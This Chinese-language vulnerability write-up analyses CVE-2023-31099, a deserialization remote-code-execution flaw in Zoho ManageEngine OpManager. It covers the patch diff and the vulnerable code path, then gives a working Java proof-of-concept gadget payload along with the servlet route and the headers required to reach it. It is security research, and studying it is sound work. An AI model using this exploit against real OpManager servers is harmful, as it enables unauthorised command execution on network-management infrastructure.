




Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

- - -

# Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

整理今年的笔记看到这个洞，搜了一下网上好像没公开细节就发出来水一篇。

## 环境搭建

下载地址： [https://archives3.manageengine.com/opmanager/126323/](https://archives3.manageengine.com/opmanager/126323/)  
下载 central 和 probe，安装 central 之后复制 key，再安装 probe 并指定 central 地址

调式：修改 wrapper.conf  
wrapper.java.additional.17=-Xdebug  
wrapper.java.additional.18=-Xrunjdwp:transport=dt\_socket,server=y,suspend=n,address=7007

## 漏洞分析

对比 diff 找到关键点  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231229165205-8aead9b6-a627-1.png)

OpManagerDistribution.jar!\\com\\me\\opmanager\\extranet\\remote\\communication\\fw\\DataObject#getObjectData中反序列化操作替换成ITOMObjectInputStream，通过设置白名单的方式进行修复。

```plain
public Object getObjectData() {
        if (!this.isDataEncrypted && this.object != null) {
            return this.object;
        } else {
            ByteArrayInputStream bais = null;
            ObjectInputStream ois = null;
            if (this.data != null) {
                try {
                    byte[] decompressedData = null;
                    byte[] decompressedData;
                    if (this.isDataEncrypted) {
                        decompressedData = EEFrameworkUtil.decryptDataObject(this.data);
                        decompressedData = NmsUtil.decompress(decompressedData);
                    } else {
                        decompressedData = NmsUtil.decompress(this.data);
                    }
                    bais = new ByteArrayInputStream(decompressedData);
                    ois = new ObjectInputStream(bais);
                    this.object = ois.readObject();
                } catch (InvalidClassException var14) {
                    this.object = this.getUncheckedUIDData(this.data);
                } catch (Exception var15) {
                    var15.printStackTrace();
                } finally {
                    try {
                        if (ois != null) {
                            ois.close();
                        }
                        if (bais != null) {
                            bais.close();
                        }
                    } catch (Exception var13) {
                        var13.printStackTrace();
                    }
                }
            }
            return this.object;
        }
    }
```

sink 点在该类的 data 字段，如果该字段可控就能实现 RCE。  
通过调用该类的 setter 方法设置 this.data 字段，然后再调用 getObjectData 就能触发 RCE，但是并未找到。

后面熟悉了下功能后，该类应该是用于 probe 向 central 传输消息的，所以应该是传输消息过程反序列化 DataObject 类之后再调用 getObjectData 方法，最后触发 RCE，根据这个思路找到了可直接发送发序列化数据的 source 点 com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，相关代码如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229165331-bdf8ebea-a627-1.png)

发现刚好设置了 com.me.opmanager.extranet.remote.communication.fw.DataObject 的白名单，继续跟进 SPPRegionalCommBE 的 transferDataToNOC 方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229165439-e6a89ba8-a627-1.png)

最终某个分支会调用 dataObject.getObjectData() 方法触发反序列化，需要满足以下条件：

1.  NotificationType 值为 24 并且 DataPriority 值为 0
2.  userProps 字段种需要存放一个 key 为 regReqID 的数据

这些值都来自 dataObject 类的字段，可控。

poc 如下

```plain
public class cve_2023_31099 {
    public static void main(String[] args) throws Exception {
        DataObject obj = new DataObject();
        int notificationType = 24;
        setField(obj,"notificationType",notificationType);
        int dataPriority = 0;
        setField(obj,"dataPriority",dataPriority);
        Properties userProps = new Properties();
        userProps.put("regReqID","qwe");
        setField(obj, "userProps",userProps);
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutilsNOCC");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("cmd /c echo 1 > c:\\1.txt");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.flush();
        byte[] bytes = baos.toByteArray();
        byte[] datas =  NmsUtil.compress(bytes);
        setField(obj, "data", datas);
        obj.getObjectData();
        FileOutputStream fos = new FileOutputStream("1.ser");
        ObjectOutputStream foos = new ObjectOutputStream(fos);
        foos.writeObject(obj);
    }
}
```

根据 web.xml 定位到路由为/servlet/com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，这里无需 opmanager-central 的 Cookie，但是需要提供三个 Header 头

1.  authkey: 安装 probe 时用的 key
2.  regionID: probe 名称
3.  method: 请求方法，这里是 POST

## 漏洞复现

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229165613-1e6fac48-a628-1.png)
